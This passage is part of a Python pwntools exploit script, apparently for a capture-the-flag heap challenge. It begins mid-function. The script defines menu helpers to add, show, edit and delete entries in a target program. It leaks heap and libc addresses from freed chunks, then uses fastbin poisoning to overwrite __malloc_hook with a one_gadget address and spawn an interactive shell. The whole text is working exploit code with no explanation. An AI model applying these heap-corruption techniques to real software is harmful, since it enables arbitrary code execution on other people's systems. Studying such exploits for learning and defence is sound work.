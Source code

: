 ```python 
	p.recv()
	p.sendline(type_)
	p.recv()
	p.sendline(str(power).encode())
	p.recv()
	p.sendline(sp)
	sleep(1)
def show(entry: int):
	p.recv()
	p.sendline(b'2')
	p.recv()
	p.sendline(str(entry).encode())
	p.recvuntil(b': ')
	type_=p.recvuntil(b'\n').rstrip()
	p.recvuntil(b': ')
	sp=p.recvuntil(b'\n').rstrip()
	sleep(1)
	return [type_,sp]
def edit(entry: int,type_ : bytes,sp: bytes):
	p.recv()
	p.sendline(b"3")
	p.recv()
	p.sendline(str(entry).encode())
	p.recv()
	p.sendline(type_)
	p.recv()
	p.sendline(sp)
	sleep(1)
def delete(entry: int):
	p.recv()
	p.sendline(b"4")
	p.recv()
	p.sendline(str(entry).encode())
	sleep(1)
add(2,b"A"*0x10+b"chunk2",0xa0,b"B"*20)
add(3,b"A"*0x10+b"chunk3",0x68,b"C"*20)
add(4,b"A"*0x10+b"chunk4",0xa0,b"D"*20)
delete(4)
delete(2)
pause()
(leaked_heap,leaked_libc)=show(2)
main_arena=int(leaked_libc[::-1].hex(),16)
leaked_heap=int(leaked_heap[::-1].hex(),16)
log.info(f"main_arena: {hex(main_arena)}")
log.info(f"leaked_heap: {hex(leaked_heap)}")
libc.address=main_arena-3951480
delete(3)
edit(3,p64(leaked_heap),p64(libc.sym["__malloc_hook"]-35)) #add to 0x70 fastbin
add(5,b"A"*0x10+b"chunk5",0x68,b"askkaksnksakassanasnas")
add(6,b"A"*0x10+b"chunk6",0x68,b"A"*19+p64(libc.address+0x4527a))
p.sendline(b"1\n"*2)
p.recv()
p.sendline(b"\nid")
p.interactive()
```

